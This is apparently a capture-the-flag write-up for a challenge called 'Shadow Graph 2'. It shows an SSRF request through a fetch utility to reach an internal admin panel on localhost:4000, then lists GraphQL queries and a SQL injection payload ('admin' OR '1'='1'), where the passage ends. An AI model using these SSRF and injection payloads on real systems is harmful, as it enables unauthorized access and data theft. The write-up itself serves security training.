 
## Challenge 5: Shadow Graph 2

{: .box-error}
**Challenge Type:** SSRF to GraphQL SQL Injection Exploitation

### Step 1: Identifying Key Information

While inspecting the source code, we find two important notes:

From `/index.html`:
```html
<!-- Oops!! Check internal/admin for testing -->
```

From `/dashboard`:
```html
<!-- Note for admins only: Use the fetch utility for internal testing on port 4000 -->
```

{: .box-warning}
**Key Insight:** These hints suggest that we need to access the internal admin panel via SSRF.

### Step 2: Exploiting SSRF to Gain Admin Access

To access the internal admin panel, we can exploit SSRF using the fetch utility:

```
https://shadow-two.espark.tn/fetch?url=http://localhost:4000/internal/admin
```

This allows us to escalate privileges and gain access as an admin.

### Step 3: Accessing GraphQL and Identifying Queries

Now that we have admin access, we navigate to the `/graphql` endpoint and explore the available queries:

| Query | Parameters |
|:------|:-----------|
| `getUser` | username: String |
| `getAllProducts` | None |
| `getProductById` | id: Int |

To test for SQL injection, we try the following query:

```graphql
{
  getUser(username: "admin' OR '1'='1") {
    id
    username
    role
  }
}
```

